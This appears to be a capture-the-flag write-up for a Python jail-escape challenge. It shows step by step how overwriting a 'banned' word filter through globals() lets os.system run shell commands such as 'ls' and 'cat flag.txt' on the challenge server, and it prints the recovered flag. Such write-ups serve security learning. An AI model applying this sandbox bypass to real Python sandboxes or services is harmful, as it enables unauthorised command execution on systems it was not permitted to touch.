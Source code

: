Category: Pwn
Difficulty: Hard
Author: @ryurina (loonatic)
___________
![bd2b0397f55cc08278e49f07f546f584.png](../_resources/bd2b0397f55cc08278e49f07f546f584.png)

It's an easy Python Jailbreak CTF
I assume, there is a "**banned**" variables to filter some words like "**import, os, builtins, etc...**"

So let's change the variables "**banned**"

```text
#~ nc 159.223.209.120 7778                                                                       ─╯
globals()['banned'] = "nothing"
```

Now we can use "import, os,...."
Let's list all the files in the directory

```text
globals()['banned'] = "nothing"
print(globals()["__builtins__"].__import__("os").system("ls"))
entrypoint.sh
flag.txt
jail.py
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
>>> >>> 0
```

And now, let's **cat** the file flag.txt
Type the same command, just change **"ls"** to **"cat flag.txt"**

```text
globals()['banned'] = "nothing"
print(globals()["__builtins__"].__import__("os").system("cat flag.txt"))
EZ-CTF{P34CH_H4S_B33N_S4V3D}
>>> >>> 0
```

Eureka!!! Peach has been saved !

#### Flag: EZ-CTF{P34CH_H4S_B33N_S4V3D}
